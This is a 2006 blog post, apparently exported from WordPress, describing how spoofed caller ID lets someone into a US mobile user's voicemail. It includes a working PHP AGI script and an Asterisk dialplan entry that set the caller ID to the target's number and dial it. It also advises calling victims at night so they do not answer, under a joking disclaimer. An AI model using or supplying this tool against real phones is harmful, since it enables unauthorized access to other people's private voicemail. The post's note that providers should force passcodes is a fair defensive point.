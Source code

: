 ```yaml
---
date: 2006-09-24 23:36:16+00:00
tags:
- voicemail-hacking
- caller-id-spoofing
- mobile-security
- asterisk
- telecommunications
title: Hacking mobile voicemail with Asterisk and caller ID spoofing
translationKey: Hacking mobile voicemail with Asterisk and caller ID spoofing
wordpress_id: 1352
wordpress_url: http://www.nata2.org/2006/09/24/hacking-voicemail-with-asterisk-and-caller-id-spoofing/
---
```


So there has always had a problem with US mobile providers having their voicemail be susceptible to being compromised by calling with a spoofed caller id. Apparently most providers caller id apps just checks the referring callerid - and doesn't force the voicemail user to pick a passcode; so it allows someone to trick the voicemail app into believing they are calling from a trusted number.

This has been covered all <a href="http://www.toast442.org/C662738431/E680925937/index.html">over the</a> <a href="http://www.i-hacked.com/content/view/124/47">Internet</a> and was in the <a href="http://www.macdevcenter.com/pub/a/mac/2005/01/01/paris.html">spotlight</a> awhile back when it was alleged that this was how <a href="http://blog.tmcnet.com/blog/tom-keating/mobile-phones/paris-hilton-hacks-voicemail-using-asterisk.asp">Paris Hilton's mobile phone was hacked</a>. It is a pretty big problem and is probably really easy to fix.

So, just to make things funnier - I decided that I would release a snippit of code that would make it easier to execute this hack.
<blockquote>#!/asterisk/php/bin/php -q
&lt;?

set_time_limit(30); //make sure the php script doesn't time out
require('phpagi.php'); // include the phpagi class
error_reporting(E_ALL);  // limit the errors

$agi = new AGI(); // instantiate the AGI class
$agi-&gt;answer(); // answer the phone
sleep(2); // wait a sec or two

$agi-&gt;stream_file('enter_spoof'); // speak a wav file that says "enter the number"
$result = $agi-&gt;get_data('beep', 3000, 10); // beep and grab the 10 numbers
$agi-&gt;verbose("Number to call:".$result['result']); // throw info so you know whats up
$agi-&gt;set_callerid($result['result']); // set caller id to the number you are calling
$agi-&gt;exec("Dial IAX2/iax-provider/1".$result['result']); // call the number

?&gt;</blockquote>
You can add this to your /var/lib/asterisk/agi-bin dir and then specify the extension you want to use to dial and execute the php/agi script
<blockquote>exten =&gt; 666,1,Answer
exten =&gt; 666,2,AGI(tmobilevoicemail_spoof.php)
exten =&gt; 666,3,Hangup</blockquote>
Then when you dial 666  it executes the script. It will ask you what number to dial then dial it after setting the caller id to the same number. It will dial the number and then ring the phone. If the phone is on and the target number is answered - it won't work; however if the person doesn't answer you will be placed in the targets voicemail as a trusted user. So, I would suggest calling people in the middle of the night or when you know they will not answer. Wait.. I actually wouldn't suggest calling anyone but yourself.

It seems to me that the only viable solution that will be compatible with all phones, people and providers is to force the users to choose passcode to your voicemail.

This is - of course - a proof of concept. You should not actually hack peoples voicemails. That is not very nice.  We are into being nice.

Also, check out my <a href="http://www.nata2.org/2006/02/14/caller-id-spoofing-with-php-and-asterisk/">previous entry on caller id spoofing</a>.